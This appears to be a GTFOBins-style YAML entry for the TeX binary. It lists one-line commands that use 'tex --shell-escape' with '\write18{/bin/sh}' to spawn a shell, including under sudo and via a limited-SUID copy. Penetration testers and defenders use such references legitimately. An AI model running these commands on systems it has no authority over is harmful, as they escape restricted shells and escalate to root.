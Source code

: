 ```yaml
---
functions:
  shell:
    - code: |
        tex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo tex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./tex --shell-escape '\write18{/bin/sh}\end'
---
```

